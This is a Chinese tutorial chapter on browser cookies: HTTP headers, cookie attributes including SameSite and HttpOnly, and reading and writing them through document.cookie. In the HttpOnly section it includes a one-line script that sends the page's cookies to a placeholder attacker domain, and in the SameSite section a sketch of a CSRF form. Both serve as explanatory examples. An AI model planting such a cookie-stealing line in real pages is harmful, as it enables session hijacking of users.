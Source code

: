 * Cookie
  :PROPERTIES:
  :CUSTOM_ID: cookie
  :END:
** 概述
   :PROPERTIES:
   :CUSTOM_ID: 概述
   :END:
Cookie
是服务器保存在浏览器的一小段文本信息，一般大小不能超过4KB。浏览器每次向服务器发出请求，就会自动附上这段信息。

Cookie 主要保存状态信息，以下是一些主要用途。

- 对话（session）管理：保存登录、购物车等需要记录的信息。
- 个性化信息：保存用户的偏好，比如网页的字体大小、背景色等等。
- 追踪用户：记录和分析用户行为。

Cookie
不是一种理想的客户端储存机制。它的容量很小（4KB），缺乏数据操作接口，而且会影响性能。客户端储存应该使用
Web storage API 和
IndexedDB。只有那些每次请求都需要让服务器知道的信息，才应该放在 Cookie
里面。

每个 Cookie 都有以下几方面的元数据。

- Cookie 的名字
- Cookie 的值（真正的数据写在这里面）
- 到期时间（超过这个时间会失效）
- 所属域名（默认为当前域名）
- 生效的路径（默认为当前网址）

举例来说，用户访问网址 =www.example.com= ，服务器在浏览器写入一个
Cookie。这个 Cookie 的所属域名为 =www.example.com= ，生效路径为根路径
=/= 。如果 Cookie 的生效路径设为 =/forums= ，那么这个 Cookie 只有在访问
=www.example.com/forums=
及其子路径时才有效。以后，浏览器访问某个路径之前，就会找出对该域名和路径有效，并且还没有到期的
Cookie，一起发送给服务器。

用户可以设置浏览器不接受 Cookie，也可以设置不向服务器发送 Cookie。
=window.navigator.cookieEnabled= 属性返回一个布尔值，表示浏览器是否打开
Cookie 功能。

#+begin_src js
  window.navigator.cookieEnabled // true
#+end_src

=document.cookie= 属性返回当前网页的 Cookie。

#+begin_src js
  document.cookie // "id=foo;key=bar"
#+end_src

不同浏览器对 Cookie
数量和大小的限制，是不一样的。一般来说，单个域名设置的 Cookie
不应超过30个，每个 Cookie 的大小不能超过4KB。超过限制以后，Cookie
将被忽略，不会被设置。

浏览器的同源政策规定，两个网址只要域名相同，就可以共享
Cookie（参见《同源政策》一章）。注意，这里不要求协议相同。也就是说，
=http://example.com= 设置的 Cookie，可以被 =https://example.com= 读取。

** Cookie 与 HTTP 协议
   :PROPERTIES:
   :CUSTOM_ID: cookie-与-http-协议
   :END:
Cookie 由 HTTP 协议生成，也主要是供 HTTP 协议使用。

*** HTTP 回应：Cookie 的生成
    :PROPERTIES:
    :CUSTOM_ID: http-回应cookie-的生成
    :END:
服务器如果希望在浏览器保存 Cookie，就要在 HTTP
回应的头信息里面，放置一个 =Set-Cookie= 字段。

#+begin_example
  Set-Cookie:foo=bar
#+end_example

上面代码会在浏览器保存一个名为 =foo= 的 Cookie，它的值为 =bar= 。

HTTP 回应可以包含多个 =Set-Cookie= 字段，即在浏览器生成多个
Cookie。下面是一个例子。

#+begin_example
  HTTP/1.0 200 OK
  Content-type: text/html
  Set-Cookie: yummy_cookie=choco
  Set-Cookie: tasty_cookie=strawberry

  [page content]
#+end_example

除了 Cookie 的值， =Set-Cookie= 字段还可以附加 Cookie 的属性。

#+begin_example
  Set-Cookie: <cookie-name>=<cookie-value>; Expires=<date>
  Set-Cookie: <cookie-name>=<cookie-value>; Max-Age=<non-zero-digit>
  Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>
  Set-Cookie: <cookie-name>=<cookie-value>; Path=<path-value>
  Set-Cookie: <cookie-name>=<cookie-value>; Secure
  Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly
#+end_example

上面的几个属性的含义，将在后文解释。

一个 =Set-Cookie= 字段里面，可以同时包括多个属性，没有次序的要求。

#+begin_example
  Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>; Secure; HttpOnly
#+end_example

下面是一个例子。

#+begin_example
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
#+end_example

如果服务器想改变一个早先设置的 Cookie，必须同时满足四个条件：Cookie 的
=key= 、 =domain= 、 =path= 和 =secure= 都匹配。举例来说，如果原始的
Cookie 是用如下的 =Set-Cookie= 设置的。

#+begin_example
  Set-Cookie: key1=value1; domain=example.com; path=/blog
#+end_example

改变上面这个 Cookie 的值，就必须使用同样的 =Set-Cookie= 。

#+begin_example
  Set-Cookie: key1=value2; domain=example.com; path=/blog
#+end_example

只要有一个属性不同，就会生成一个全新的 Cookie，而不是替换掉原来那个
Cookie。

#+begin_example
  Set-Cookie: key1=value2; domain=example.com; path=/
#+end_example

上面的命令设置了一个全新的同名 Cookie，但是 =path=
属性不一样。下一次访问 =example.com/blog=
的时候，浏览器将向服务器发送两个同名的 Cookie。

#+begin_example
  Cookie: key1=value1; key1=value2
#+end_example

上面代码的两个 Cookie 是同名的，匹配越精确的 Cookie 排在越前面。

*** HTTP 请求：Cookie 的发送
    :PROPERTIES:
    :CUSTOM_ID: http-请求cookie-的发送
    :END:
浏览器向服务器发送 HTTP 请求时，每个请求都会带上相应的
Cookie。也就是说，把服务器早前保存在浏览器的这段信息，再发回服务器。这时要使用
HTTP 头信息的 =Cookie= 字段。

#+begin_example
  Cookie: foo=bar
#+end_example

上面代码会向服务器发送名为 =foo= 的 Cookie，值为 =bar= 。

=Cookie= 字段可以包含多个 Cookie，使用分号（ =;= ）分隔。

#+begin_example
  Cookie: name=value; name2=value2; name3=value3
#+end_example

下面是一个例子。

#+begin_example
  GET /sample_page.html HTTP/1.1
  Host: www.example.org
  Cookie: yummy_cookie=choco; tasty_cookie=strawberry
#+end_example

服务器收到浏览器发来的 Cookie 时，有两点是无法知道的。

- Cookie 的各种属性，比如何时过期。
- 哪个域名设置的 Cookie，到底是一级域名设的，还是某一个二级域名设的。

** Cookie 的属性
   :PROPERTIES:
   :CUSTOM_ID: cookie-的属性
   :END:
*** Expires，Max-Age
    :PROPERTIES:
    :CUSTOM_ID: expiresmax-age
    :END:
=Expires=
属性指定一个具体的到期时间，到了指定时间以后，浏览器就不再保留这个
Cookie。它的值是 UTC 格式，可以使用 =Date.prototype.toUTCString()=
进行格式转换。

#+begin_example
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
#+end_example

如果不设置该属性，或者设为 =null= ，Cookie
只在当前会话（session）有效，浏览器窗口一旦关闭，当前 Session 结束，该
Cookie 就会被删除。另外，浏览器根据本地时间，决定 Cookie
是否过期，由于本地时间是不精确的，所以没有办法保证 Cookie
一定会在服务器指定的时间过期。

=Max-Age= 属性指定从现在开始 Cookie 存在的秒数，比如
=60 * 60 * 24 * 365= （即一年）。过了这个时间以后，浏览器就不再保留这个
Cookie。

如果同时指定了 =Expires= 和 =Max-Age= ，那么 =Max-Age= 的值将优先生效。

如果 =Set-Cookie= 字段没有指定 =Expires= 或 =Max-Age= 属性，那么这个
Cookie 就是 Session
Cookie，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个
Cookie。

*** Domain，Path
    :PROPERTIES:
    :CUSTOM_ID: domainpath
    :END:
=Domain= 属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个
Cookie。如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个
Cookie。比如， =example.com= 不设置 Cookie 的 =domain= 属性，那么
=sub.example.com= 将不会附带这个 Cookie。如果指定了 =domain=
属性，那么子域名也会附带这个
Cookie。如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 Cookie。

=Path= 属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个
Cookie。只要浏览器发现， =Path= 属性是 HTTP
请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如， =PATH=
属性是 =/= ，那么请求 =/docs= 路径也会包含该
Cookie。当然，前提是域名必须一致。

*** Secure，HttpOnly
    :PROPERTIES:
    :CUSTOM_ID: securehttponly
    :END:
=Secure= 属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie
发送到服务器。另一方面，如果当前协议是
HTTP，浏览器会自动忽略服务器发来的 =Secure=
属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS
协议，该开关自动打开。

=HttpOnly= 属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是
=document.cookie= 属性、 =XMLHttpRequest= 对象和 Request API
都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP
请求时，才会带上该 Cookie。

#+begin_src js
  (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
#+end_src

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie
发往第三方服务器。如果设置了一个 Cookie 的 =HttpOnly=
属性，上面代码就不会读到该 Cookie。

*** SameSite
    :PROPERTIES:
    :CUSTOM_ID: samesite
    :END:
Chrome 51 开始，浏览器的 Cookie 新增加了一个 =SameSite= 属性，用来防止
CSRF 攻击和用户追踪。

Cookie 往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 Cookie
的 HTTP 请求，这就是 CSRF 攻击。举例来说，用户登陆了银行网站
=your-bank.com= ，银行服务器发来了一个 Cookie。

#+begin_example
  Set-Cookie:id=a3fWa;
#+end_example

用户后来又访问了恶意网站 =malicious.com= ，上面有一个表单。

#+begin_example
  <form action="your-bank.com/transfer" method="POST">
    ...
  </form>
#+end_example

用户一旦被诱骗发送这个表单，银行网站就会收到带有正确 Cookie
的请求。为了防止这种攻击，表单一般都带有一个随机
token，告诉服务器这是真实请求。

#+begin_example
  <form action="your-bank.com/transfer" method="POST">
    <input type="hidden" name="token" value="dad3weg34">
    ...
  </form>
#+end_example

这种第三方网站引导发出的 Cookie，就称为第三方 Cookie。它除了用于 CSRF
攻击，还可以用于用户追踪。比如，Facebook
在第三方网站插入一张看不见的图片。

#+begin_example
  <img src="facebook.com" style="visibility:hidden;">
#+end_example

浏览器加载上面代码时，就会向 Facebook 发出带有 Cookie 的请求，从而
Facebook 就会知道你是谁，访问了什么网站。

Cookie 的 =SameSite= 属性用来限制第三方
Cookie，从而减少安全风险。它可以设置三个值。

#+begin_quote

  - Strict
  - Lax
  - None
#+end_quote

*（1）Strict*

=Strict= 最为严格，完全禁止第三方 Cookie，跨站点时，任何情况下都不会发送
Cookie。换言之，只有当前网页的 URL 与请求目标一致，才会带上 Cookie。

#+begin_example
  Set-Cookie: CookieName=CookieValue; SameSite=Strict;
#+end_example

这个规则过于严格，可能造成非常不好的用户体验。比如，当前网页有一个
GitHub 链接，用户点击跳转就不会带有 GitHub 的
Cookie，跳转过去总是未登陆状态。

*（2）Lax*

=Lax= 规则稍稍放宽，大多数情况也是不发送第三方
Cookie，但是导航到目标网址的 Get 请求除外。

#+begin_example
  Set-Cookie: CookieName=CookieValue; SameSite=Lax;
#+end_example

导航到目标网址的 GET 请求，只包括三种情况：链接，预加载请求，GET
表单。详见下表。

| 请求类型  | 示例                                 | 正常情况    | Lax         |
|-----------+--------------------------------------+-------------+-------------|
| 链接      | =<a href="..."></a>=                 | 发送 Cookie | 发送 Cookie |
| 预加载    | =<link rel="prerender" href="..."/>= | 发送 Cookie | 发送 Cookie |
| GET 表单  | =<form method="GET" action="...">=   | 发送 Cookie | 发送 Cookie |
| POST 表单 | =<form method="POST" action="...">=  | 发送 Cookie | 不发送      |
| iframe    | =<iframe src="..."></iframe>=        | 发送 Cookie | 不发送      |
| AJAX      | =$.get("...")=                       | 发送 Cookie | 不发送      |
| Image     | =<img src="...">=                    | 发送 Cookie | 不发送      |

设置了 =Strict= 或 =Lax= 以后，基本就杜绝了 CSRF
攻击。当然，前提是用户浏览器支持 SameSite 属性。

*（3）None*

Chrome 计划将 =Lax= 变为默认设置。这时，网站可以选择显式关闭 =SameSite=
属性，将其设为 =None= 。不过，前提是必须同时设置 =Secure= 属性（Cookie
只能通过 HTTPS 协议发送），否则无效。

下面的设置无效。

#+begin_example
  Set-Cookie: widget_session=abc123; SameSite=None
#+end_example

下面的设置有效。

#+begin_example
  Set-Cookie: widget_session=abc123; SameSite=None; Secure
#+end_example

** document.cookie
   :PROPERTIES:
   :CUSTOM_ID: document.cookie
   :END:
=document.cookie= 属性用于读写当前网页的 Cookie。

读取的时候，它会返回当前网页的所有 Cookie，前提是该 Cookie 不能有
=HTTPOnly= 属性。

#+begin_src js
  document.cookie // "foo=bar;baz=bar"
#+end_src

上面代码从 =document.cookie= 一次性读出两个
Cookie，它们之间使用分号分隔。必须手动还原，才能取出每一个 Cookie 的值。

#+begin_src js
  var cookies = document.cookie.split(';');

  for (var i = 0; i < cookies.length; i++) {
    console.log(cookies[i]);
  }
  // foo=bar
  // baz=bar
#+end_src

=document.cookie= 属性是可写的，可以通过它为当前网站添加 Cookie。

#+begin_src js
  document.cookie = 'fontSize=14';
#+end_src

写入的时候，Cookie 的值必须写成 =key=value=
的形式。注意，等号两边不能有空格。另外，写入 Cookie
的时候，必须对分号、逗号和空格进行转义（它们都不允许作为 Cookie
的值），这可以用 =encodeURIComponent= 方法达到。

但是， =document.cookie= 一次只能写入一个
Cookie，而且写入并不是覆盖，而是添加。

#+begin_src js
  document.cookie = 'test1=hello';
  document.cookie = 'test2=world';
  document.cookie
  // test1=hello;test2=world
#+end_src

=document.cookie= 读写行为的差异（一次可以读出全部
Cookie，但是只能写入一个 Cookie），与 HTTP 协议的 Cookie
通信格式有关。浏览器向服务器发送 Cookie 的时候， =Cookie=
字段是使用一行将所有 Cookie 全部发送；服务器向浏览器设置 Cookie 的时候，
=Set-Cookie= 字段是一行设置一个 Cookie。

写入 Cookie 的时候，可以一起写入 Cookie 的属性。

#+begin_src js
  document.cookie = "foo=bar; expires=Fri, 31 Dec 2020 23:59:59 GMT";
#+end_src

上面代码中，写入 Cookie 的时候，同时设置了 =expires=
属性。属性值的等号两边，也是不能有空格的。

各个属性的写入注意点如下。

- =path= 属性必须为绝对路径，默认为当前路径。
- =domain= 属性值必须是当前发送 Cookie 的域名的一部分。比如，当前域名是
  =example.com= ，就不能将其设为 =foo.com=
  。该属性默认为当前的一级域名（不含二级域名）。
- =max-age= 属性的值为秒数。
- =expires= 属性的值为 UTC 格式，可以使用 =Date.prototype.toUTCString()=
  进行日期格式转换。

=document.cookie= 写入 Cookie 的例子如下。

#+begin_src js
  document.cookie = 'fontSize=14; '
    + 'expires=' + someDate.toGMTString() + '; '
    + 'path=/subdirectory; '
    + 'domain=*.example.com';
#+end_src

Cookie 的属性一旦设置完成，就没有办法读取这些属性的值。

删除一个现存 Cookie 的唯一方法，是设置它的 =expires=
属性为一个过去的日期。

#+begin_src js
  document.cookie = 'fontSize=;expires=Thu, 01-Jan-1970 00:00:01 GMT';
#+end_src

上面代码中，名为 =fontSize= 的 Cookie
的值为空，过期时间设为1970年1月1月零点，就等同于删除了这个 Cookie。

** 参考链接
   :PROPERTIES:
   :CUSTOM_ID: 参考链接
   :END:

- [[https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies][HTTP
  cookies]], by MDN
- [[https://www.netsparker.com/blog/web-security/same-site-cookie-attribute-prevent-cross-site-request-forgery/][Using
  the Same-Site Cookie Attribute to Prevent CSRF Attacks]]
- [[https://web.dev/samesite-cookies-explained][SameSite cookies
  explained]]
- [[https://scotthelme.co.uk/tough-cookies/][Tough Cookies]], Scott
  Helme
- [[https://scotthelme.co.uk/csrf-is-dead/][Cross-Site Request Forgery
  is dead!]], Scott Helme
